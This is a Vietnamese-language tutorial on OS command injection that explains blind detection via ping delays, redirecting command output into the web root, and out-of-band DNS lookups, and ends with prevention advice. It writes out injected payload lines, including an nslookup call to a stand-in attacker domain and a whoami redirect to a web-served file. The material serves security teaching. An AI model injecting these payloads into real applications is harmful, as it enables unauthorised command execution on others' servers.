








# **OS command injection**

## **OS command injection là gì?**



- OS command injection (Shell injection) là một lỗ hổng bảo mật web cho phép kẻ tấn công thực thi các lệnh hệ điều hành OS tùy ý trên máy chủ đang chạy ứng dụng. Rất thường xuyên. kẻ tấn công có thể tận dụng lỗ hổng os command để xâm phậm các phần khác của database, khai thác các mỗi quan hệ tin cậy để chuyển cuộc tấn công sang các hệ thống khác trong tổ chức.

- Dưới đây là một ví dụ về một ứng dụng web có chứa lỗ hổng os command injection.



- Ở trang web có chức năng kiểm tra số lượng hàng hóa. Nhưng có lỗ hổng về os command injection.



- Như ta đã thấy nó sử dụng parameter productId và storeId để kiểm tra hàng tồn kho. Từ đấy, tôi đã thử lệnh whoami đối với tham số như sau:



## **OS command thường được sử dụng**



## **Blind command injection**

### **Detecting blind OS command injection using time delays**

- Bạn có thể sử dụng lệnh được đưa vào sẽ kích hoạt thời gian trễ, cho phép bạn xác nhận rằng lệnh đã được thực thi dựa trên thời gian ứng dụng cần để phản hồi. Lệnh ping là một cách hiệu quả để thực hiện việc này, vì nó cho phép bạn chỉ định số lượng gói ICMP sẽ gửi và do đó, thời gian để lệnh chạy:

```os
& ping -c 10 127.0.0.1 &
```

- Lệnh này sẽ khiến ứng dụng ping bộ điều hợp mạng loopback của nó trong 10 giây.

- Dưới đây là một ví dụ về blind os command. Khi tôi thử với `whoami` thì tôi không thấy một chút thông tin gì ở response. Nên tôi không biết lỗ hổng os command có thực sự hoạt động hay không nên tôi đã thử với việc delay thời gian 10s và dòng lệnh đã thực sự hoạt động.



### **Exploiting blind OS command injection by redirecting output**

- Bạn có thể chuyển hướng output vào một tệp trong thư mục gốc của web mà bạn có thể truy xuất trên trình duyệt.

```
& whoami > /var/www/static/whoami.txt &
```

- Sau đó, chúng ta có thể truy xuất file whoami.txt trên trình duyệt `https://vulnerable-website.com/whoami.txt`.



### **Exploiting blind OS command injection using out-of-band (OAST) techniques**

- Chúng ta có thể sử dụng kĩ thuật out-of-band thông qua câu lệnh nslookup.

```
& nslookup kgji2ohoyw.web-attacker.com &
```

- Sử dụng lệnh nslookup để thực hiện tra cứu DNS cho miền được chỉ định. Kẻ tấn công có thể theo dõi quá trình tra cứu được chỉ định xảy ra và do đó phát hiện ra rằng lệnh đã được đưa vào thành công.



## **Các cách dùng để Command Injection**

- Đầu tiên cần phải xác định được hệ thống target đang hoạt động là gì, Windows hay Linux? Một số ký tự có chức năng phân tách lệnh, cho phép các lệnh nối với nhau:
  - &
  - &&
  - |
  - ||
- Các bộ tách lệnh sau chỉ hoạt động trên các hệ thống dựa trên Unix:
  - ;
  - Newline (0x0a or \n)
- \`
injected command `
- $(injected command )

## **Làm sao để ngăn ngừa Command Injection**

- Cách hiệu quả nhất để ngăn ngừa command injection là không dùng command nữa. Tức là không bao giờ gọi ra các lệnh OS từ lớp ứng dụng. Trong các trường hợp, có nhiều cách khác nhau để thực hiện chức năng cần thiết bằng cách sử dụng API trên nền tảng an toàn hơn. Nếu không thể tránh khỏi việc sử dụng các lệnh OS thì phải thực hiện xác thực đầu vào mạnh

  - Chỉ chấp nhận đối với các giá trị được phép
  - Chỉ chấp nhận đầu vào là một số
  - Chỉ chấp nhận đầu vào chỉ có ký tự chữ và số, không có ký tự đặc biệt, khoảng trắng,...
